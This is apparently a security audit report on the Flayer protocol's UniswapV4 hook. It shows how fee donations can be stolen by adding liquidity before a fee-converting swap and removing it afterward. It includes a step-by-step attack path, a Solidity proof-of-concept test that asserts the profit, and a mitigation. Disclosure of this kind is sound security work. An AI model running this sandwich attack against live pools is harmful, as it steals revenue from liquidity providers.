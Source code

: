 Large Mauve Parrot

High

# Native tokens donations to UniswapV4 pools can be stolen by adding/removing liquidity before/after a swap

### Summary

Native tokens donations to UniswapV4 pools can be stolen by sandwiching swap transactions

### Root Cause

Donations to UniswapV4 pools can be stolen by providing liquidity to the pool before a call to [PoolManager::donate()](https://github.com/Uniswap/v4-core/blob/tickbitmap-overload/src/PoolManager.sol#L250) is executed.

In Flayer donations to the UniswapV4 pool are executed by [UniswapImplementation::_distributeFees()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol) in the form of native tokens, whenever there's enough native tokens to distribute.

Flayer collect all of the fees in collection tokens, which are only converted to native tokens in the [UniswapImplementation::beforeSwap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol#L490) hook. Because collections tokens are only converted to native tokens instantly before swap it's possible for a big enough amount of collection tokens to accumulate before they get converted to native tokens. This makes it profitable for an attacker to frontrun hiw own (or others) swap that converts collection tokens into native tokens by providing liquidity and then backrun the swap by removing liquidity.

### Internal pre-conditions

1. Enough fees/taxes in the form of collection tokens should be accumulated by the [UniswapImplementation](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol#L113). The value of the collection tokens needs to be greater than the gas costs to execute the attack, plus the swap fees if the attacker itself will executed the swap. The protocol will be deployed on Flayer where fee costs are low.

### External pre-conditions

_No response_

### Attack Path

1. The attacker provides liquidity to a Flayer UniV4 pool.
2. The attacker fills 10 listings via [Listings::fillListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L528), this deposits fees in the form of collection tokens via [depositFees()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L598). Let's assume `5e17` collection tokens are accumulated as fees.
3. The attacker swaps native tokens for `5e17` collection tokens directly on the pool. This will first trigger the [UniswapImplementation::beforeSwap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol#L490) which will convert the just received native tokens into fees. After the swap is exeucted the [UniswapImplementation::afterSwap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/implementation/UniswapImplementation.sol#L594) is triggered, which will donate the fees to the relative UniV4 pool.
4. The attacker removes liquidity from the Flayer UniV4 pool for a profit.

The only precondition is for enough collection tokens to have accumulated before the swap is executed, this can happen:

- Naturally: no swaps of native tokens for collection tokens happened for a while
- Artifically: the attacker triggers fee deposits events via some actions (ex. fill listing, cancel listings, etc.) before executing the swap to steal part of the fees

### Impact

Attackers can steal revenue from liquidity providers whenever the accumulated fees are big enough to cover costs.

### PoC

<details>
  <summary>To copy-paste in `UniswapImplementation.t.sol`:</summary>
 
```solidity
function test_ExCanSwapWithAmmBeneficiary_Unspecified() public withTokens {
    ICollectionToken ctoken = locker.collectionToken(address(unflippedErc));

    uint24 _ammFee = 1000;
    bool _flipped = false;
    uint256 nativeAmount = 1e18;
    uint256 ctokenAmount = 10e18 * 10 ** ctoken.denomination();
    uint256 depositFeesAmount = 5e17;

    // Set up a pool key
    PoolKey memory poolKey = _poolKey(_flipped);

    // Set our AMM beneficiary details
    uniswapImplementation.setAmmFee(_ammFee);
    uniswapImplementation.setAmmBeneficiary(BENEFICIARY);

    //Deal tokens and approvals
    _dealNativeToken(address(this), nativeAmount);
    deal(address(ctoken), address(this), ctokenAmount);
    _approveNativeToken(address(this), address(poolModifyPosition), type(uint).max);
    ctoken.approve(address(poolModifyPosition), type(uint).max);
    ctoken.approve(address(uniswapImplementation), type(uint).max);

    // Add liquidity
    uint256 beforeNative = WETH.balanceOf(address(this));
    uint256 beforeCToken = ctoken.balanceOf(address(this));
    poolModifyPosition.modifyLiquidity(
        PoolKey({
            currency0: poolKey.currency0,
            currency1: poolKey.currency1,
            fee: poolKey.fee,
            tickSpacing: poolKey.tickSpacing,
            hooks: poolKey.hooks
        }),
        IPoolManager.ModifyLiquidityParams({
            // Set our tick boundaries
            tickLower: TickMath.minUsableTick(poolKey.tickSpacing),
            tickUpper: TickMath.maxUsableTick(poolKey.tickSpacing),
            liquidityDelta: int(10 ether),
            salt: ''
        }),
        ''
    );
    uint256 addedAsLiquidityNative = beforeNative - WETH.balanceOf(address(this));
    uint256 addedAsLiquidityCtoken = beforeCToken - ctoken.balanceOf(address(this));

    //Deposit fees action 
    uniswapImplementation.depositFees(address(unflippedErc), 0, depositFeesAmount);
    UniswapImplementation.ClaimableFees memory fees = uniswapImplementation.poolFees(address(unflippedErc));
    assertEq(fees.amount0, 0);
    assertEq(fees.amount1, depositFeesAmount);

    //Swap native for ctoken requesting exactly `depositFeesAmount` ctokens
    _swap(
        IPoolManager.SwapParams({
            zeroForOne: true,
            amountSpecified: int(depositFeesAmount),
            sqrtPriceLimitX96: TickMath.MIN_SQRT_PRICE + 1
        })
    );

    //Fees have been distributed to LPs
    fees = uniswapImplementation.poolFees(address(unflippedErc));
    assertEq(fees.amount0, 0);
    assertEq(fees.amount1, 0);

    //Remove liquidity
    beforeNative = WETH.balanceOf(address(this));
    beforeCToken = ctoken.balanceOf(address(this));
    poolModifyPosition.modifyLiquidity(
        PoolKey({
            currency0: poolKey.currency0,
            currency1: poolKey.currency1,
            fee: poolKey.fee,
            tickSpacing: poolKey.tickSpacing,
            hooks: poolKey.hooks
        }),
        IPoolManager.ModifyLiquidityParams({
            // Set our tick boundaries
            tickLower: TickMath.minUsableTick(poolKey.tickSpacing),
            tickUpper: TickMath.maxUsableTick(poolKey.tickSpacing),
            liquidityDelta: int(-10 ether),
            salt: ''
        }),
        ''
    );

    //LP made a profit by sandwitching the fee distribution
    uint256 removedAsLiquidityNative = WETH.balanceOf(address(this)) - beforeNative;
    uint256 removedsLiquidityCtoken = ctoken.balanceOf(address(this)) - beforeCToken;
    uint256 profit = removedAsLiquidityNative - addedAsLiquidityNative;
    assertEq(profit, 426711657458932044);
    assertEq(removedsLiquidityCtoken + 1, addedAsLiquidityCtoken); //1 wei loss due uniV4 rounding down
}
```
</details>

### Mitigation

Accumulated fees should be distributed over time or only to liquidity providers that held liquidity for enough time.